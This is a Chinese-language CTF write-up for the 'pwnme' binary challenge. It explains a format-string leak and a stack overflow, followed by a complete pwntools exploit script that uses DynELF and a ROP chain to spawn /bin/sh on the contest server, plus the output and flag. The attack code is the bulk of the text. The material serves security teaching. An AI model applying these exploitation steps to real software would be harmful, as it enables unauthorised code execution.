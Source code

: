 # pwnme

## 题目描述
---
```
nc 106.75.2.53 10006

附件下载
```

## 题目来源
---
“百度杯”CTF比赛 十一月场

## 主要知识点
---
格式化字符串漏洞 栈溢出

## 题目分值
---
50


## 解题思路
---

安全机制，开启了栈不可执行和got表不可写保护。

![](images/ctf-2021-06-10-11-09-30.png)

### 程序溢出点

![](images/ctf-2021-06-10-14-55-04.png)

在函数sub_400AF7中，v8可以读入0x12C个字节，同时if判断中对v8进行字节截断，所以我们可以输入如0x101个字符，在保证能够溢出到返回地址的同时，v8字节截断后的0x01又能够通过if判断，然后通过函数sub_400A90进行溢出。

![](images/ctf-2021-06-10-14-55-16.png)

函数sub_400AD1中存在格式化字符串漏洞，我们可以通过这个漏洞泄露任意地址的内容，并通过DynELF类获得system函数的地址。

### 整体思路

这个程序首先让你输入username跟password，然后提供三个选项

![](images/ctf-2021-06-10-14-56-03.png)

溢出漏洞位于选项2中，格式化漏洞在选项1中。

我们在输入完username和password后，首先进入选项2中，然后构造合适的payload，然后让程序调用选项1能够泄露任意地址的内容，从而可以通过DynELF类获取sytem地址。

然后让程序进入选项2中，构造能够溢出并绕过if的payload，通过ROP技术调用read函数输入/bin/sh并调用sytem函数完成system('/bin/sh')pwn掉程序。

### ROP的构造

攻击脚本如下

```python
# -*- coding:utf8 -*-
from pwn import *

io = remote('106.75.2.53',10006)

io.recvuntil('Input your username(max lenth:40): \n')
io.sendline('asd')      #输入username
io.recvuntil('Input your password(max lenth:40): \n')
io.sendline('1')        #输入password

def leak(addr):
    io.recvuntil('>')
    io.sendline('2')
    io.recvuntil('please input new username(max lenth:20): \n')
    io.sendline('BBBBB')       #输入任意大于0小于0x20个字符
    io.recvuntil('please input new password(max lenth:20): \n')
    payload1 = '%12$s'         #64位前六个参数用寄存器传参，6个以后用栈传参，需要泄露内容  
                               #的地址在rsp下6位处，所以printf取第(6+7)个参数
    payload1 += 'aaaaaaa'      #padding  使地址处在第13个参数处
    payload1 += p64(addr) 
    io.send(payload1)
    io.recvuntil('>')
    io.sendline('1')
    content = io.recvuntil('aaaaaaa')    #读取对应地址泄露的内容
    # log.info("%#x -> %s" %(addr, (content or '').encode('hex')))
    if len(content) == 13:      #前面5个B，并且在栈中以0x0A结尾，也就是6个字节，后面7个a，一共13个字节，说明没有内容泄露
         return '\x00'
    else:
        return content[6:-7]      #返回泄露的内容

d = DynELF(leak,elf = ELF('./pwnme'))
system_addr = d.lookup('system','libc')     #获取system函数在内存中的位置
log.info('system_addr:%#x' % system_addr)

io.recvuntil('>')
io.sendline('2')
io.recvuntil('please input new username(max lenth:20): \n')
io.sendline('A')      #输入任意大于0小于0x20个字符
io.recvuntil('please input new password(max lenth:20): \n')

pop_rdi_addr = 0x400ed3      #pop rdi;ret
pop_5_addr = 0x400ecb        #pop rbp;pop r12;pop r13;pop r14;pop r15;ret
read_got = 0x601FC8          #read函数got表地址
bin_sh_addr = 0x602010       #/bin/sh写入地址，在bss段中
mov_3_addr = 0x400EB0        #mov rdx,r13;mov rsi,r14;mov edi,r15d; call qword ptr [r12 + rbx*8];add rbx,1;cmp rbx,rbp;jnz short loc_400eb0

payload = ''
payload +='A' * 0x28         #padding 0x20个字节到栈底，加8溢出程序
payload += p64(pop_5_addr) 
payload += p64(0x1)          #rbp = 1,由于在mov_3_addr代码段有命令cmp rbx，rbp，jnz short loc_400eb0；rbx为0并且执行了add rbx，1指令，所以将rbp置1防止程序跳转发生错误
payload += p64(read_got)     #r12 = read函数got表地址
payload += p64(0x8)          #r13 = 0x8
payload += p64(bin_sh_addr)  #r14 = /bin/sh地址
payload += p64(0)            #r15 = 0
payload += p64(mov_3_addr)   #rdx = 0x8，rsi = /bin/sh地址，edi = 0，这段代码相当于read(0，/bin/sh地址，0x8)
payload += p64(0x8) * 7      #运行完mov_3_addr指令后接下来有add rsp，8和6个pop才到ret，用7个p64(0x8)滑过这段代码到ret
payload += p64(pop_rdi_addr)
payload += p64(bin_sh_addr)  #rdi  = /bin/sh地址
payload += p64(system_addr)  #system('bin/sh')
payload = payload.ljust(0x101,'A')    #填充到0x101个字节绕过if

io.sendline(payload)
io.sendline('/bin/sh\x00')    #输入/bin/sh
io.sendline('cat flag')       #由于交互一会就会中断，所以直接发送命令获得flag
io.interactive()
```

![](images/ctf-2021-06-10-14-56-36.png)


```
python exp.py              

[+] Opening connection to 106.75.2.53 on port 10006: Done
[*] '/home/sea/ICHUNQIU/ichunqiu_50_pwnme/result/pwnme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Loading from '/home/sea/ICHUNQIU/ichunqiu_50_pwnme/result/pwnme': 0x7f730d1c5168
[+] Resolving 'system' in 'libc.so': 0x7f730d1c5168
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[*] Build ID not found at offset 0x174
[*] .gnu.hash/.hash, .strtab and .symtab offsets
[*] Found DT_GNU_HASH at 0x7f730cf97c00
[*] Found DT_STRTAB at 0x7f730cf97c10
[*] Found DT_SYMTAB at 0x7f730cf97c20
[*] .gnu.hash parms
[*] hash chain index
[*] hash chain
[*] system_addr:0x7f730cc19390
[*] Switching to interactive mode
flag{b6401733-a29b-425a-bd8a-3927345c3505}
```

## 参考
---
https://www.cnblogs.com/luoleqi/p/11567953.html